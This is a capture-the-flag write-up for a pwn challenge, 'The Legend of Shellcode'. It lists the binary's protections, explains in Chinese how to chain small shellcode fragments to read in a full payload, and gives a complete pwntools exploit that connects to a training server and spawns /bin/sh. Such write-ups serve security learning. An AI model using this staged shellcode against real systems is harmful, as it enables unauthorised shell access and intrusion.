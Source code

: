 # The Legend of Shellcode

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |Full  |
|Canary|on    |
|NX    |off   |
|PIE   |on    |
|strip |no    |
|libc  |2.31-0ubuntu9.12|

## 解题思路

nx没开，栈上放了一堆`ret`，一运行就是`pop rip`，那么控制好rsp，就能让rip跳到下一个read的段；
由于我想的是`add rax,0x10;push rax`的方式移动rip，因此读入9字节，只剩4字节空间了，不适合放"/bin/sh"
字符串，因此考虑在初始读入的位置搓一个`SYSCALL_read`出来方便读入完整的shellcode（打newstar ctf打的），
再跳转过去就可以拿到shell

> 赛后交流发现short jmp所耗字节更少，还是疏忽了

## EXPLOIT

```python
from pwn import *
context.arch = 'amd64'

def payload(lo:int):
    if lo:
        sh = process('./code')
        if lo & 2:
            gdb.attach(sh, gdbscript='b *$rebase(0x13b7)')
    else:
        sh = remote('training.0rays.club', 10004)

    # section 1
    shc = asm('''
    push rax
    xor rdi,rdi
    add rax,0x10
    push rax
    ''')
    sh.send(shc)

    # section 2
    shc = asm('''
    pop rbx
    mov rdx,r11
    add rax,0x10
    push rax
    ''')
    sh.send(shc)

    # section 3
    shc = asm('''
    push rbx
    pop rsi
    push rbx
    xor rax,rax
    syscall
    ret
    ''')
    sh.send(shc)

    # skipping rest
    sh.sendlineafter(b'sh:', b'')
    sh.sendlineafter(b'ht:', b'')
    sh.sendlineafter(b'ul:',b'')
    

    # section SYSCALL_read
    shc = asm('''
    mov rbx, 0x68732f6e69622f
    push rbx
    push rsp
    pop rdi
    xor rsi,rsi
    xor rdx, rdx
    push 0x3b
    pop rax
    syscall
    ''')
    sh.sendlineafter(b'ru', shc)

    sh.interactive()
```

